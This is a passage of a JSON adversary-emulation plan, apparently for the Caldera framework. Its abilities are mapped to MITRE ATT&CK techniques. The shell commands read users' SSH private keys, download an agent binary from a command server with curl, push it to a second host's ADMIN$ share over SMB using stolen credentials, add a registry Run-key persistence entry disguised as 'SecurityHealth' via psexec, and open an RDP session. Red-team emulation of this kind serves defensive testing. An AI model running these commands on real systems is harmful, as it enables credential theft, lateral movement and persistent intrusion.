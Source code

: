 ```json
      "attack_id": "T1552.003"
    },
    {
      "ability_id": "dc3152ac-1014-4f96-98c9-a64d5a61712e",
      "platform": "linux",
      "commands": {
        "sh": "cat /home/#{initial.user.name}/.ssh/id_rsa;\ncat /home/#{initial.user.name}/.ssh/id_rsa.pub;\n"
      },
      "privilege": "Unknown",
      "tactic": "credential-access",
      "technique": "Unsecured Credentials: Private Keys",
      "attack_id": "T1552.004"
    },
    {
      "ability_id": "ee1e23ad-87d4-4d69-932f-2e5631508c8e",
      "platform": "linux",
      "commands": {
        "sh": "server=\"#{server}\";\ncurl -s -X POST -H \"file:sandcat.go\" -H \"platform:windows\" -H \"server:$server\" -H \"group:gammu\" $server/file/download > wsmprovav.exe;\nchmod +x wsmprovav.exe;\nsmbclient -U 'WORKGROUP\\#{second_host.user.name}' //#{second.target.host}/ADMIN$ -c \"put ./wsmprovav.exe wsmprovav.exe;\" \"#{second_host.user.password}\"\n"
      },
      "privilege": "Unknown",
      "tactic": "lateral-movement",
      "technique": "Remote Services: SMB/Windows Admin Shares",
      "attack_id": "T1021.002"
    },
    {
      "ability_id": "57771abd-0789-4dda-bb02-31359e6860db",
      "platform": "linux",
      "commands": {
        "sh": "./psexec_sandworm.py -service-name \"Windows Check AV\" WORKGROUP/#{second_host.user.name}:#{second_host.user.password}@#{second.target.host} cmd /c 'reg.exe LOAD HKU\\Temp \"C:\\Users\\#{second_host.user.name}\\NTUSER.DAT\" & reg.exe ADD HKU\\Temp\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /t REG_EXPAND_SZ /v SecurityHealth /d \"C:\\Windows\\wsmprovav.exe\"' 2>&1\n"
      },
      "privilege": "Unknown",
      "tactic": "execution",
      "technique": "System Services: Service Execution",
      "attack_id": "T1569.002"
    },
    {
      "ability_id": "c4c08a1f-15d6-4dfd-9ba7-9b61594762ff",
      "platform": "linux",
      "commands": {
        "proc": "exec-background xfreerdp +clipboard /u:WORKGROUP\\\\#{second_host.user.name} /p:\"#{second_host.user.password}\" /v:#{second.target.host} /cert-ignore\n"
      },
      "privilege": "Unknown",
      "tactic": "persistence",
      "technique": "Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder",
      "attack_id": "T1547.001"
    },
    {
      "ability_id": "236fd943-2bd8-400a-9a63-33f724629ca4",
      "platform": "linux",
      "commands": {
        "sh": "sleep 40\n"
      },
      "privilege": "Unknown",
      "tactic": "persistence",
      "technique": "Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder",
```